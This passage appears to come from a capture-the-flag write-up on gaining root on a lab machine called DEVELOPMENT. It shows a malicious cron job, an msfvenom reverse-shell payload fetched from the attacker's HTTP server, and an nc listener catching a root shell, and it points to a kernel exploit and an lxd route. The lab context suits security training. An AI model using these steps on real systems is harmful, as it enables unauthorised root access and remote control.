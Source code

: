 **Privilege escalation with nano**

Another way to escalate privileges is to create a cron job in the **cron.d** directory to download a linux payload, give it execute permissions, and run it, as shown below:

``` bash
patrick@development:~$ sudo nano /etc/cron.d/evilcron
```
![](/assets/images/development/screenshot-10.png)

Then we will create a linux payload with the following instruction:

``` bash
root@kali:~$ msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=192.168.179.1 LPORT=443 -f elf -o back.door
```

We set up a nc listener and after a minute the cron job will download and execute the payload giving us a shell, as shown below:

``` bash
root@kali:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.179.130 - - [23/Apr/2021 17:36:01] "GET /back.door HTTP/1.1" 200 -
```

``` bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.130] 36224
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux development 4.15.0-34-generic #37-Ubuntu SMP Mon Aug 27 15:21:48 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
cat /root/proof.txt
Congratulations on rooting DEVELOPMENT! :)
```

Another way to get root on this box is through kernel exploitation which is vulnerable to [CVE-2018-18955](https://nvd.nist.gov/vuln/detail/CVE-2018-18955), you can find the exploit [here](https://www.exploit-db.com/exploits/47165), or also through **lxd** since the user patrick is member of the group lxd.

